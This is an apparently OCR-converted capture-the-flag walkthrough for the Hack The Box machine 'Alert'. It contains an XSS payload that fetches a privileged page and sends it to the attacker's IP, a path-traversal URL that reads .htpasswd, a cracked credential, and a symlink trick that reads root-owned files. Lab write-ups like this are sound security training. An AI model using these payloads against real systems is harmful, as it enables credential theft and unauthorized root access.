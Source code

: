 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png)

Result

![](images/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png)

4.  asdf

5.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png)

6.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png)

Right click -\> copy link

7.  ![](images/media/image11.png){width="4.119104330708661in"
    height="3.6359995625546806in"}![](images/media/image12.png){width="4.11875in"
    height="1.044669728783902in"}

8.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png)

9.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

10. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png)

11. Create file **alert.hash** and paste hash in it

12. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

13. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png)

14. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png)

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png)

15. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png)

16. Firefox access **127.0.0.1:8080**

![](images/media/image21.png)

17. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png)

18. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png)

19. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png)

[Root.txt FLAG]{.mark}

